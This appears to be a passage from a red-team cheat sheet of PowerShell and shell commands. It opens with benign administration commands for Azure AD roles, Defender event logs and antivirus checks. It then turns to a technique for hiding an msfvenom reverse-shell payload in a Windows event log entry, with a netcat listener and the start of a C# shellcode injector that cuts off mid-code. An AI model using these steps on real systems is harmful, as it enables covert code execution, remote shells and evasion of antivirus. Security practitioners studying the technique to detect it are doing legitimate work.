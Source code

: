 ```
# Get list of Azure AD management roles:
Get-MsolRole


# Show the members of each management role:
Get-MsolRole | ForEach { "`n`n" ; "-" * 30 ; $_.Name ; "-" * 30 ; Get-MsolRoleMember -RoleObjectId $_.ObjectId | ForEach { $_.DisplayName } }
```

## PowerShell

Pull Windows Defender event logs 1116 (malware detected) and 1117 (malware blocked)
from a saved evtx file:

```
PS C:\> Get-WinEvent -FilterHashtable @{path="WindowsDefender.evtx";id=1116,1117}
```
Check for installed antivirus:

```
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct
```

## Execute Payloads Utilizing Windows Event Logs

Create variable to contain payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<> LPORT=<> -f hex
```

```
$msf = '<Insert Shellcode as Hex Literal String'
```

Convert Payload variable to hex byte array:

```
$hashByteArray = [byte[]] ($payload -replace '..', '0x$&,' -split ',' -ne '')
```

Create new event log entry:

```
Write-Event -LogName 'Key Management Service' -Source KmsRequests -EventID 31337 -EventType Information -Category 0 -Message 'Here be Dragons' -RawData $HashByteArray
```

Start your listener:

```
nc -nvlp 1337
```

Execute code injector utilizing this code:

```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace EventLogsForRedTeams
{
    class Program
    { 

    [DllImport("kernel32.dll")]
    public static extern Boolean VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, UInt32 flNewProtect,
            out UInt32 lpflOldProtect);

```

[VICTIM]: PS C:\Users\Victim\Documents>